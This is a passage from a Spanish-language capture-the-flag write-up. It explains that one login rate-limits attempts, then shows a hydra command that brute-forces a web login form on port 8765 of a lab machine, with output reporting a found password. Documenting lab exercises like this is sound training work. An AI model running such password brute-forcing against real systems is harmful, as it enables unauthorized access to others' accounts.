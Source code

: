 Además, el aplicar fuerza bruta puede desactivar el login, pues detectará muchas peticiones realizadas, lo que me da a entender que hay un límite de intentos:

<p align="center">
<img src="/assets/images/THL-writeup-nodeCeption/Captura13.png">
</p>

En cambio, la fuerza bruta se podrá aplicar en el login de la página web del **puerto 8765**, sin ningún problema:
```bash
hydra -l 'usuario@maildelctf.com' -P ./rockyouMatch.txt 192.168.100.120 -s 8765 http-post-form "/login.php:email=^USER^&password=^PASS^:F=Credenciales incorrectas."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-19 15:09:20
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 611309 login tries (l:1/p:611309), ~38207 tries per task
[DATA] attacking http-post-form://192.168.100.120:8765/login.php:email=^USER^&password=^PASS^:F=Credenciales incorrectas.
[8765][http-post-form] host: 192.168.100.120   login: usuario@maildelctf.com   password: ********
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-19 15:09:31
```
